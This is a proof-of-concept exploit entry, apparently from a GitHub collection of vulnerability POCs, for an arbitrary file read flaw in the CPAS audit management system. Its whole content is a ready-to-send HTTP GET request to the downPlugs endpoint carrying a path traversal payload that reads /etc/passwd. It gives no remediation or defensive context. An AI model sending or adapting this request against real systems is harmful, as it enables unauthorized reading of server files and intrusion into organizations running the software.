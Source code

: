 # CPAS_downplugs_fileread

from: https://github.com/wy876/POC/blob/main/%E5%8C%97%E4%BA%AC%E5%8F%8B%E6%95%B0%E8%81%9A%E7%A7%91%E6%8A%80/CPAS%E5%AE%A1%E8%AE%A1%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md

product: CPAS审计管理系统

```
GET /cpasm4/plugInManController/downPlugs?fileId=../../../../etc/passwd&fileName= HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```
